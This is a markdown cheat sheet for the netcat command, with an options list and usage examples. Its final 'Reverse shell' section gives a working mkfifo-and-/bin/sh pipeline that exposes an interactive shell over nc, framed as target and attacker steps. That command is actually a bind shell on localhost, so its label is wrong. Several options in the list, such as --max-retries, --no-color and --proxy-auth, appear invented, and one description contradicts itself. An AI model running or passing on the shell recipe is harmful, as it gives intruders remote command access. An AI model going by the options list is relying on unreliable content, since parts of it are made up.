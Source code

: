 # NC Command

<!-- TOC -->
* [NC Command](#nc-command)
  * [Description](#description)
  * [Usage](#usage)
  * [Options](#options)
  * [Examples](#examples)
    * [Basic Connection](#basic-connection)
    * [Listening on a Port](#listening-on-a-port)
    * [Sending Data](#sending-data)
    * [Receiving Data](#receiving-data)
    * [Scanning for Open Ports](#scanning-for-open-ports)
    * [Using UDP](#using-udp)
    * [Connecting with a Timeout](#connecting-with-a-timeout)
    * [Reverse shell](#reverse-shell-)
<!-- TOC -->

## Description
The `nc` command, also known as **Netcat**, is a versatile networking utility that can read and write data across network connections using TCP or UDP protocols. It is often referred to as the "Swiss Army knife" of networking due to its wide range of capabilities.

## Usage
```bash
nc [options] [hostname] [port]
```
## Options
- `-C`: Use CRLF line endings instead of LF, useful for compatibility with certain protocols.
- `-e <program>`: Execute a program after establishing a connection (note: this option may not be available in all versions of Netcat due to security concerns).
- `-h`: Display help information and exit.
- `-i <interval>`: Set the interval for sending data, in seconds (useful for sending periodic messages).
- `-k`: Keep the connection open after the first client disconnects, allowing multiple connections to be handled sequentially.
- `-l`: Listen for incoming connections.
- `-n`: Do not perform DNS resolution, use numeric IP addresses only.
- `-N`: Close the connection after EOF on stdin, useful for one-time data transfers.
- `-o <file>`: Write the output to a file instead of standard output.
- `-p <port>`: Specify the local port to listen on or connect to.
- `-s <source address>`: Specify the source address to use for the connection.
- `-u`: Use UDP instead of TCP.
- `-v`: Enable verbose mode to display more information about the connection.
- `-w <timeout>`: Set a timeout for connections, in seconds.
- `-z`: Zero-I/O mode, used for scanning and checking if a port is open without sending any data.
- `-4`: Use IPv4 only.
- `-6`: Use IPv6 only.
- `--source-port <port>`: Specify the source port to use for the connection.
- `--version`: Display version information and exit.
- `--help`: Display help information and exit.
- `--no-dns`: Disable DNS resolution for hostnames.
- `--no-check-certificate`: Do not check SSL/TLS certificates (useful for secure connections).
- `--ssl`: Use SSL/TLS for secure connections (if supported by the version of Netcat).
- `--proxy <proxy>`: Use a proxy server for the connection.
- `--proxy-auth <username:password>`: Authenticate with the proxy server using the specified username and password.
- `--max-retries <count>`: Set the maximum number of connection retries before giving up.
- `--retry-delay <seconds>`: Set the delay between connection retries, in seconds.
- `--timeout <seconds>`: Set a timeout for the connection attempt, in seconds.
- `--no-color`: Disable colored output in verbose mode.
- `--log <file>`: Log connection details to a specified file.
- `--debug`: Enable debug mode for more detailed output about the connection process.
- `--no-keepalive`: Disable TCP keepalive messages for the connection.
- `--no-close`: Prevent closing the connection after sending data, allowing for persistent connections.

## Examples
### Basic Connection
```bash
  nc example.com 80
```
### Listening on a Port
```bash 
  nc -l -p 1234
```
### Sending Data
```bash
  echo "Hello, World!" | nc example.com 1234
```
### Receiving Data
```bash
  nc -l -p 1234 > received.txt
```
### Scanning for Open Ports
```bash
  nc -z -v example.com 1-1000
```
### Using UDP
```bash
  nc -u example.com 1234
```
### Connecting with a Timeout
```bash
  nc -w 5 example.com 1234
```

### Reverse shell   
```bash
# On the target machine:
  # Delete the file if exists and create a named pipe - data written to it can be read from the other end
  rm -f /tmp/f; mkfifo /tmp/f 
  # read command from the FIFO pipe. 
  # pip those commands to interactive shell.
  # redirect stderr(2) to stdout(1) so error goes to the same place as regular commands
  # pip all shell output (including error) to netcat(nc) listening on localhost:1234
  # redirect anything received from netcat(nc) to the FIFO pipe, which feed into the shell via the `cat` command completing the loop
  cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f 
  
# On the attacker's machine:
  # connect to the target machine's netcat listener on port 1234
  nc <target_ip> 1234
```

    By doing this, you create a fifo at /tmp/f and make nc listen at port
    1234 of address 127.0.0.1 on ‘server’ side, when a ‘client’ establishes a
    connection successfully to that port, /bin/sh gets executed on ‘server’
    side and the shell prompt is given to ‘client’ side.
    
    When connection is terminated, nc quits as well. Use -k if you want it
    keep listening, but if the command quits this option won't restart it or
    keep nc running. Also don't forget to remove the file descriptor once you
    don't need it anymore:
    
    $ rm -f /tmp/f
